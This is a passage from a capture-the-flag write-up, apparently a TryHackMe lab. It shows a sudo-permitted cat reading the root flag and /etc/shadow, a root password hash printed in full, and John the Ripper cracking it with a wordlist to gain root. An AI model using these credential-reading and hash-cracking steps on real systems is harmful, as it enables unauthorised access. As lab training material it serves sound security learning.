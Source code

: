 ```
https://gtfobins.github.io/gtfobins/cat/#sudo

john@bruteit:~$ LFILE=/root/root.txt
john@bruteit:~$ sudo /bin/cat "$LFILE"
THM{pr1v1l3g3_3sc4l4t10n}


```
```
john@bruteit:~$ nano run.sh

contents of the file

!/bin/bash

ls -alt /root

john@bruteit:~$ chmod +x run.sh

```

```
john@bruteit:~$ sudo /bin/cat /etc/passwd | head -n 1
root:x:0:0:root:/root:/bin/bash
john@bruteit:~$ sudo /bin/cat /etc/shadow | head -n 1
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```
```
└─# unshadow passwd.txt shadow.txt > unshadowed.txt

└─# john --wordlist=rockyou.txt unshadowed.txt               
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)     
1g 0:00:00:01 DONE (2024-01-28 19:43) 0.9345g/s 119.6p/s 119.6c/s 119.6C/s 123456..diamond
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

john unshadowed.txt --show                
root:football:0:0:root:/root:/bin/bash

1 password hash cracked, 0 left

john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# whoami
root


```
